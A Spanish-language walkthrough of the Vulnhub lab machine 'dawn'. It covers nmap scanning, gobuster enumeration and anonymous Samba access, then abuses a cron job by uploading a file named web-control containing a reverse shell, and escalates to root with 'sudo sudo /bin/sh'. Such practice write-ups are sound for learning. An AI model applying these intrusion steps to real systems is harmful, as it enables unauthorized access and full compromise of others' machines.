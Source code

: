 +++
title = "dawn - Vulnhub"
+++


[link de descarga de la máquina dawn](https://www.vulnhub.com/entry/sunset-dawn,341/)

---



## Escaneo de red con nmap para descubrir máquina objetivo

```bash
nmap -sn 10.3.3.0/24
```

![nmaphd](/images/writeups/vulnhub/dawn/nmaphd.png)

### La IP de la máquina objetivo es **10.3.3.20**

## Escaneo de la máquina objetivo en busca de puertos abiertos

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.3.3.20 -oN target_scan.nmap
```

```bash
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-12 15:42 EDT
Initiating ARP Ping Scan at 15:42
Scanning 10.3.3.20 [1 port]
Completed ARP Ping Scan at 15:42, 0.06s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 15:42
Scanning 10.3.3.20 [65535 ports]
Discovered open port 139/tcp on 10.3.3.20
Discovered open port 80/tcp on 10.3.3.20
Discovered open port 445/tcp on 10.3.3.20
Discovered open port 3306/tcp on 10.3.3.20
Completed SYN Stealth Scan at 15:42, 1.41s elapsed (65535 total ports)
Nmap scan report for 10.3.3.20
Host is up, received arp-response (0.00013s latency).
Scanned at 2024-03-12 15:42:28 EDT for 2s
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE      REASON
80/tcp   open  http         syn-ack ttl 64
139/tcp  open  netbios-ssn  syn-ack ttl 64
445/tcp  open  microsoft-ds syn-ack ttl 64
3306/tcp open  mysql        syn-ack ttl 64
MAC Address: 08:00:27:43:01:ED (Oracle VirtualBox virtual NIC)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 1.78 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)
```

### **Puertos Abiertos: 80,139,445,3306**

## Ejecución de scripts con nmap

```bash
sudo nmap -sCV -p80,139,445,3306 10.3.3.20 -oN scripts_exec.nmap
```



```bash
Host is up (0.00044s latency).

PORT     STATE SERVICE     VERSION
80/tcp   open  http        Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
3306/tcp open  mysql       MySQL 5.5.5-10.3.15-MariaDB-1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.15-MariaDB-1
|   Thread ID: 12
|   Capabilities flags: 63486
|   Some Capabilities: ODBCClient, SupportsLoadDataLocal, InteractiveClient, LongColumnFlag, SupportsCompression, ConnectWithDatabase, SupportsTransactions, Speaks41ProtocolOld, IgnoreSigpipes, Support41Auth, FoundRows, Speaks41ProtocolNew, IgnoreSpaceBeforeParenthesis, DontAllowDatabaseTableColumn, SupportsAuthPlugins, SupportsMultipleStatments, SupportsMultipleResults
|   Status: Autocommit
|   Salt: cJ*2\X'TR}Ct?|tS!H'*
|_  Auth Plugin Name: mysql_native_password
MAC Address: 08:00:27:43:01:ED (Oracle VirtualBox virtual NIC)
Service Info: Host: DAWN

Host script results:
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: dawn
|   NetBIOS computer name: DAWN\x00
|   Domain name: dawn
|   FQDN: dawn.dawn
|_  System time: 2024-03-12T15:45:17-04:00
| smb2-time: 
|   date: 2024-03-12T19:45:17
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: DAWN, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
|_clock-skew: mean: 1h19m59s, deviation: 2h18m33s, median: 0s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.56 seconds
```

## Enumeración de directorios con gobuster

```bash
gobuster dir -u http://10.3.3.20/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
```

```bash
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.3.3.20/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 293]
/.hta                 (Status: 403) [Size: 288]
/.htaccess            (Status: 403) [Size: 293]
/index.html           (Status: 200) [Size: 791]
/logs                 (Status: 301) [Size: 305] [--> http://10.3.3.20/logs/]
/server-status        (Status: 403) [Size: 297]
Progress: 4727 / 4727 (100.00%)
===============================================================
Finished
===============================================================
```

## Archivo management.log encontrado en http://10.3.3.20/logs/

![management.log](/images/writeups/vulnhub/dawn/managementlog.png)

## Registro de cronjob en el contenido del archivo de log 

![cronjob](/images/writeups/vulnhub/dawn/cronjob.png)


## Conexión al servicio samba y subida de archivo web-control que se ejecuta cada cierto tiempo y contiene una reverse shell

```bash
smbclient --no-pass //10.3.3.20/ITDEPT
```

![revshell](/images/writeups/vulnhub/dawn/revshell.png)

## Privesc

![sudoperms](/images/writeups/vulnhub/dawn/sudoperms.png)

```bash
sudo sudo /bin/sh
```

![flagroot](/images/writeups/vulnhub/dawn/flagroot.png)
